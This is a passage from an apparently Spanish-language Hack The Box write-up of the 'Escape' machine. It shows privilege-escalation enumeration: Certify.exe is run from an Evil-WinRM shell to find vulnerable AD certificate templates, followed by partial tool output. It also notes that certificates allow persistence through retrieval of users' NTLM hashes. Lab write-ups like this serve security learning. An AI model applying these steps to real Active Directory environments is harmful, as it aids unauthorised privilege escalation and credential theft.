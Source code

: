 ## Privilege Escalation

Desde Nmap podemos ver muchos resultados relacionados con certificados.  Esta es una fuerte indicación de que hay un Certificado  Autoridad en marcha.  Podemos usar Certify para enumerar posibles errores de configuración en el Certificado de Active Directory. " El período de validez del certificado suele ser de 1 año y no está relacionado con ningún cambio de contraseña. Por lo tanto, este método se puede utilizar como una persistencia ya que el hash NTLM del usuario se puede solicitar, recuperar y descifrar."
asi que importamos y ejecutamos la herramienta de Certify para descubrir templates de certificados que sean vulnerables

![](/assets/img/commons/Escape/cap9.png)

## Enumeration Certificates templates vulnerables

```shell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop> .\Certify.exe find /vulnerable /currentuser

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.1.0

[*] Action: Find certificate templates
[*] Using current user's unrolled group SIDs for vulnerability checks.
[*] Using the search base 'CN=Configuration,DC=sequel,DC=htb'

[*] Listing info about the Enterprise CA 'sequel-DC-CA'

    Enterprise CA Name            : sequel-DC-CA
    DNS Hostname                  : dc.sequel.htb
    FullName                      : dc.sequel.htb\sequel-DC-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=sequel-DC-CA, DC=sequel, DC=htb
    Cert Thumbprint               : A263EA89CAFE503BB33513E359747FD262F91A56
    Cert Serial                   : 1EF2FA9A7E6EADAD4F5382F4CE283101
    Cert Start Date               : 11/18/2022 12:58:46 PM
    Cert End Date                 : 11/18/2121 1:08:46 PM
    Cert Chain                    : CN=sequel-DC-CA,DC=sequel,DC=htb
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

```